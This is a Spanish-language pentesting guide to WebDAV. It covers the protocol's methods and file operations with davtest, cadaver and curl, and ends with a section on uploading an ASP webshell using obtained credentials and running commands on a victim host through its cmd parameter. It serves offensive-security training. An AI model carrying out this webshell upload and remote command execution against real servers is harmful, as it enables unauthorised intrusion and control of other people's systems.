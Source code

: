 # WebDAV

# Tabla de Contenido

---

# ¿Qué es WebDAV?

---

WebDAV es una extención del protocolo **HyperText Transfer Protocol** (HTTP) que permite administrar archivos en un servidor web remotamente, puede trabajar tanto en redes locales como remotas (Internet). Este protocolo permite guardar, editar, mover, eliminar y compartir archivos. 

WebDAV utiliza un sistema de autenticación **usuario/contraseña** para autenticar a los usuarios en el sistema. Necesitamos dichas credenciales para acceder.

Algunos métodos extras que encontramos en WebDAV a diferencia de HTTP son:

- **PROPFIND:** Recupera propiedades, como el título, autor y fecha de modificación, de un recurso web. Puede recuperar tanto propiedades individuales como todas las propiedades del recurso.
- **PROPPATCH:** Establece y/o elimina propiedades de un recurso web. Este método permite cambiar los metadatos asociados con un recurso.
- **MKCOL:** Crea una nueva colección (similar a un directorio en un sistema de archivos) en la ubicación especificada por el URI.
- **COPY:** Copia un recurso de una ubicación a otra. Puede copiar tanto archivos individuales como colecciones completas.
- **MOVE:** Mueve un recurso de una ubicación a otra. Al igual que COPY, este método puede manejar tanto archivos como colecciones.
- **LOCK:** Bloquea un recurso para evitar modificaciones conflictivas. Existen dos tipos de bloqueos: exclusivos (sólo un usuario puede modificar el recurso) y compartidos (varios usuarios pueden obtener el bloqueo compartido).
- **UNLOCK:** Desbloquea un recurso que previamente ha sido bloqueado con el método LOCK.
- **SEARCH:** Permite buscar recursos en el servidor basado en ciertos criterios.

# Herramientas

---

- Curl
- Cadaver
- Davtest

# Uso

---

## 1. Davtest

Davtest realiza una serie de peticiones intentando subir, mover, copiar o eliminar archivos para determinar qué acciones tenemos permitidas con las credenciales actuales.

```bash
davtest -auth 'USER:PASSWORD' -url 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR'
```

> No recomiendo utilizar esta herramienta por el nivel de ruido que genera
> 

## 2. Cadaver

Cadaver es un cliente de WebDAV que proporciona una CLI (Command Line Interface) amigable para ejecutar las distintas acciones que se pueden realizar en un servidor WebDAV.

```bash
cadaver 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR'
```

Luego nos pedirá credenciales válidas.

```bash
cadaver 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR'
Authentication required for DOMAIN on server `URL_OR_IP':
Username: USER
Password: ********
```

Una vez dentro, se desplegará una CLI como esta.

```bash
dav:/WEBDAV_DIR/> 
```

Podemos realizar acciones como listar los archivos y directorios.

```bash
dav:/WEBDAV_DIR/> ls
```

Subir archivos.

```bash
dav:/WEBDAV_DIR/> put /FILE/PATH/TO/UPLOAD
```

Ver el contenido de los archivos.

```bash
dav:/WEBDAV_DIR/> less /FILE/PATH/TO/DELETE
```

Modificar archivos.

```bash
dav:/WEBDAV_DIR/> edit /FILE/PATH/TO/DELETE
```

Eliminar archivos.

```bash
dav:/WEBDAV_DIR/> delete /FILE/PATH/TO/DELETE
```

Crear directorios.

```bash
dav:/WEBDAV_DIR/> mkcol DIRECTORY_NAME
```

Eliminar directorios.

```bash
dav:/WEBDAV_DIR/> rmcol DIRECTORY_NAME
```

## 3. Curl

Estas acciones la podemos realizar de manera manual con **curl**.

Colocar **-L** en cada petición es crucial ya que por defecto al hacer una petición a esta ruta se realiza una redirección por detrás. De no colocar -L nos dará un error de que el recurso ha sido movido.

Listar los archivos y directorios.

```bash
curl --user 'USERNAME:PASSWORD' -L 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR'
```

Subir archivos.

```bash
curl -T FILE_TO_UPLOAD.EXTENSION --user 'USERNAME:PASSWORD' -L 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/FILENAME.EXTENSION'
```

Ver el contenido de los archivos.

```bash
curl --user 'USERNAME:PASSWORD' 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/EXITING_FILE.EXTENSION'
```

Eliminar archivos.

```bash
curl -X DELETE --user 'USERNAME:PASSWORD' -L 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/FILENAME.EXTENSION'
```

Modificar archivos.

```bash
curl -T NEW_FILE.EXTENSION --user 'USERNAME:PASSWORD' -L 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/EXITING_FILE.EXTENSION'
```

Crear directorios.

```bash
curl -X MKCOL --user 'USERNAME:PASSWORD' 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/DIR_NAME'
```

Eliminar directorios.

```bash
curl -X DELETE --user 'USERNAME:PASSWORD' 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/DIR_NAME'
```

# Explotación

---

Una manera común de explotar este servicio una vez tenemos credenciales es subiendo una webshell o una reverse shell al servidor y luego ejecutarlo.

Para esto vamos a subir un archivo **.asp** ubicado en **/usr/share/webshells/asp/webshells.asp**, esta web shell la podemos descargar desde [aquí](https://github.com/tennc/webshell/blob/master/asp/webshell.asp). Podemos guardarla donde querramos pero, yo la guardé en la ruta previamente mencionada.

Subimos la webshell.

```bash
curl -T /usr/share/webshells/asp/webshells.asp --user 'USERNAME:PASSWORD' -L 'http(s)://URL_OR_IP:PORT/WEBDAV_DIR/FILENAME.EXTENSION'
```

Si no presenta ningún problema la ejecución ya sería posible ejecutar comando en la máquina víctima con la ruta hacia el archivo y  a través del parámetro **cmd**.

> Los espacios deben ser sustituidos por el signo +
> 

```bash
curl --user 'ketti.andrea:password' 'http://192.168.56.136/webdav/webshell.asp?cmd=dir+C:\' 
```

También podríamos hacerlo directamente desde el navegador donde tendríamos el siguiente campo de texto donde podemos ingresar los comandos y obtendremos su respectiva salida.

![Untitled](Untitled.png)